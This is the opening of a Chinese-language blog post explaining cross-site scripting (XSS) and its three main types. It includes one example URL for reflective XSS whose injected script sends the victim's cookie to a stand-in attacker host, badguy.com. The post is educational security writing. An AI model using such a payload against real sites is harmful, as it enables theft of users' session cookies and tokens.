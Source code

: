 ```yaml
---
title: XSS Cross Site Scripting
date: 2021-09-08
tags:
  - security
categories:
  - Other
description: 前端最需要知道的資訊安全 - XSS 攻擊，若這道防線被破了，CSRF 相關防範措施就會失效，這次就來紀錄一下什麼是 XSS 攻擊，以及他的防禦方式。

meta:
  - name: og:url
    content: https://www.haolit.cc/blogs/other/2021/20210908_1.html
  - name: og:title
    content: XSS Cross Site Scripting
  - name: og:description
    content: 前端最需要知道的資訊安全 - XSS 攻擊，若這道防線被破了，CSRF 相關防範措施就會失效，這次就來紀錄一下什麼是 XSS 攻擊，以及他的防禦方式。
  - name: og:image
    content: https://storage.googleapis.com/image.blocktempo.com/2021/08/Source%EF%BC%9ASimplilearn-.jpg
---
```


前端最需要知道的資訊安全 - XSS 攻擊，若這道防線被破了，CSRF 相關防範措施就會失效，這次就來紀錄一下什麼是 XSS 攻擊，以及他的防禦方式。



![](https://storage.googleapis.com/image.blocktempo.com/2021/08/Source%EF%BC%9ASimplilearn-.jpg)

Cross Site Scripting 是一種網站應用程序的安全漏洞攻擊，是代碼注入的一種。它允許惡意用戶將代碼注入到網頁上，其他用戶在觀看網頁時就會受到影響。這類攻擊通常包含了 HTML 以及用戶端腳本語言。

## 攻擊原理

在前端 Web 的環境下，最容易也最常被提及的攻擊就是 XSS 了。駭客利用在輸入框等欄位，輸入惡意的程式碼，剛好網站又沒有經過驗證，就直接執行輸出，導致惡意的程式碼被執行。

![](https://i.imgur.com/yumObbV.png)

大致上主要分為下列三種攻擊模式：

1. Reflective XSS
2. Persistent/Stored XSS
3. Dom-based XSS

### 1. Reflective XSS

駭客會利用網址參數地方，輸入惡意的程式碼，當受害者透過該網址打開網站時，就會立刻執行，有點像反射的感覺，所以叫 Reflective XSS。惡意植入程式碼的網址大概長這樣：

```
http://www.shop.com/search?query=<script>document.location='http://badguy.com/cookiestealer.php?c='+document.cookie;</script>
```

利用網址參數的特性，有可能會在網站上執行，駭客在上面輸入的不是正常的字串，而是 Javascript 執行片段，這樣一來，當點擊該網址，駭客就可以輕易地拿到 Cookie、token 等相關資料。
